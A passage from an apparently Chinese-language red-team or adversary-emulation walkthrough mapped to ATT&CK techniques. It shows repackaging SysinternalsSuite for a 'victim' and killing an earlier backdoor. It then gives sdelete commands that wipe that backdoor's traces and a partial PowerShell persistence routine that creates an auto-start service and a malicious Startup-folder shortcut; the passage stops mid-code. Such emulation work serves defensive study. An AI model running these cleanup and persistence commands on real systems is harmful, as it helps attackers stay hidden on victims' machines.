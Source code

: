 ```python=
# 下載文件
download_file(download_url, download_path)

# 解壓文件
unzip_file(download_path, extract_path)

# 重新壓縮文件
output_zip = 'SysinternalsSuite.zip'
create_zip(extract_path, output_zip)

print(f"重新壓縮的文件已生成: {output_zip}")

```
### 上傳至受害者
![image](https://hackmd.io/_uploads/Hye2JsMUA.png)

### 解壓縮檔案
![image](https://hackmd.io/_uploads/ryWlbifIC.png)

![image](https://hackmd.io/_uploads/SJC-boGLA.png)
### 攻擊者枚舉正在運行的進程（T1057）終止步驟1初始訪問的進程，然後刪除與該訪問相關的各種檔（T1107）

#### Get-process
![image](https://hackmd.io/_uploads/H1VRboMUA.png)

#### 關掉之前的後門

![image](https://hackmd.io/_uploads/SkjDfiGL0.png)

![image](https://hackmd.io/_uploads/BkIjGoM8C.png)

#### 刪除乾淨之前的後門


```shell=
$.\sdelete64.exe /accepteula "$env:USERPROFILE\Desktop\?$cod.3aka3.scr"
$.\sdelete64.exe /accepteula "$env:APPDATA\Draft.Zip"
$.\sdelete64.exe /accepteula $"$env:USERPROFILE\Downloads\SysinternalsSuite.zip"
```

## Step 5 – 持久性

```js=
function Invoke-Persistence {
    param (
        [int]$PersistStep
    )
    
    if ($PersistStep -eq 1) {
        # 創建新服務（T1050）
        New-Service -Name "MyService" -Binary "C:\Path\To\Your\Binary.exe" -DisplayName "MyService" -Description "My Persistent Service" -StartupType Automatic
    }
    elseif ($PersistStep -eq 2) {
        # 在 Windows 啟動文件夾中創建惡意有效負載（T1060）
        $startupPath = "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\malicious.lnk"
        $targetPath = "C:\Path\To\Your\Malicious.exe"
        
        $WScriptShell = New-Object -ComObject WScript.Shell
        $shortcut = $WScriptShell.CreateShortcut($startupPath)
```